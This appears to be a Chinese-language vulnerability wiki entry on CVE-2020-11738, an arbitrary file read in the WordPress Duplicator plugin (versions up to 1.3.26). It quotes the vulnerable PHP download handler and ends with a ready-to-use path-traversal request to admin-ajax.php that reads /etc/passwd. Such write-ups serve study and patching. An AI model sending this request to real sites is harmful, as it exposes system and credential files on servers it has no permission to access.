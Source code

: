 # WordPress Duplicator duplicator.php 任意文件读取漏洞 CVE-2020-11738

## 漏洞描述

WordPress Duplicator插件由于对文件下载没有进行验证，则导致了任意文件读取漏洞

## 漏洞影响

<a-checkbox checked>Duplicator <= v1.3.26</a-checkbox></br>

## 插件名

<a-checkbox checked>Duplicator</a-checkbox></br>

<a-checkbox checked>https://downloads.wordpress.org/plugin/duplicator.1.3.26.zip</a-checkbox></br>

## 漏洞复现

首先先查看注册的无需授权的action接口 `wp-content/plugins/duplicator/ctrls/class.web.services.php`

![img](/assets/PeiQi-Wiki/img/1638523625856-1b37f8fa-0988-426e-a486-ce3aa4379097.png)

这里 `wp_ajax_nopriv_duplicator_download` 对应的函数名为 duplicator_download

![img](/assets/PeiQi-Wiki/img/1638523732618-c27820f7-da8f-42e7-9675-dcdf6dcbd156.png)

```php
public static function duplicator_download() {
        $file = sanitize_text_field($_GET['file']);
        $filepath = DUPLICATOR_SSDIR_PATH.'/'.$file;
        // Process download
        if(file_exists($filepath)) {
            // Clean output buffer
            if (ob_get_level() !== 0 && @ob_end_clean() === FALSE) {
                @ob_clean();
            }

            header('Content-Description: File Transfer');
            header('Content-Type: application/octet-stream');
            header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
            header('Expires: 0');
            header('Cache-Control: must-revalidate');
            header('Pragma: public');
            header('Content-Length: ' . filesize($filepath));
            flush(); // Flush system output buffer

            try {
                $fp = @fopen($filepath, 'r');
                if (false === $fp) {
                    throw new Exception('Fail to open the file '.$filepath);
                }
                while (!feof($fp) && ($data = fread($fp, DUPLICATOR_BUFFER_READ_WRITE_SIZE)) !== FALSE) {
                    echo $data;
                }
                @fclose($fp);
            } catch (Exception $e) {
                readfile($filepath);
            }
            exit;
        } else {
            wp_die('Invalid installer file name!!');
        }
    }
```

可以看到这里接受参数 file，拼接至 $filepath 中，通过调试可以得知 

DUPLICATOR_SSDIR_PATH 为 wp-snapshots 目录，file可控且没有过滤，导致任意文件读取

```php
/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1638523863362-cd010b2b-66df-4243-b4e8-5834b6a9ce11.png)